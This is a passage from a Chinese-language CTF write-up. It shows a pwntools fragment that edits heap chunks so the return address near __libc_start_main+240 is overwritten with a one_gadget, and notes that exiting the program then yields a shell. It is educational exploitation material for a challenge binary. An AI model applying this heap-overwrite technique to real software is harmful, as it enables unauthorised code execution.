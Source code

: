 ```plain
edit(2, p64(stack_env-240))
edit(1, p64(gadget_addr))
p.readuntil("(CMD)>>>")
p.sendline("Q")
```

然后修改 chunk\_ptr1 为 '\_\_libc\_start\_main+240'

[![](assets/1701612371-e23460ca4d57b2181fcbccf2e2e6f2bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152124-e2f42008-17df-1.png)  
这样编辑 chunk2 就能把 '\_\_libc\_start\_main+240' 修改为 og了  
然后直接退出就getshell了

[![](assets/1701612371-0e8cb783f92bc600ac2900a4a16772a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230701152138-eaeb7fcc-17df-1.png)

